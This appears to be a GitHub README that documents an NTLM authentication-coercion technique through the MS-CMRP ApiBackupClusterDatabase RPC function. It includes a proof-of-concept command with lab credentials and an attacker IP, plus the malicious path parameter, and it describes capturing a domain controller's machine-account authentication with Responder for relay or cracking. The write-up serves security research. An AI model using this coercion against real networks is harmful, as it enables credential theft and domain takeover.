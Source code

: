 # MS-CMRP - Remote call to ApiBackupClusterDatabase (opnum 104)

## Summary

 - **Protocol**: [[MS-CMRP]: Failover Cluster: Management API (ClusAPI) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/ba4117c0-530e-4e70-a085-4b4cf5bbf193)

 - **Protocol UUID**: b97db8b2-4c63-11cf-bff6-08002be23f2f

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`ApiBackupClusterDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/99990857-f857-402e-8018-b7eaca1fc6c1)

 - **Function operation number**: `104`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/ba4117c0-530e-4e70-a085-4b4cf5bbf193) protocol (with uuid `b97db8b2-4c63-11cf-bff6-08002be23f2f` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/ba4117c0-530e-4e70-a085-4b4cf5bbf193) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CMRP]: Failover Cluster: Management API (ClusAPI) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/ba4117c0-530e-4e70-a085-4b4cf5bbf193) and allows to call RPC functions of this protocol. We will then call the remote [`ApiBackupClusterDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/99990857-f857-402e-8018-b7eaca1fc6c1) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ApiBackupClusterDatabase('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t ApiBackupClusterDatabase(
   [in, string] LPCWSTR lpszPathName,
   [out] error_status_t *rpc_status
 );
```

## References

 - Documentation of protocol [MS-CMRP]: Failover Cluster: Management API (ClusAPI) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/ba4117c0-530e-4e70-a085-4b4cf5bbf193

 - Documentation of function `ApiBackupClusterDatabase`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cmrp/99990857-f857-402e-8018-b7eaca1fc6c1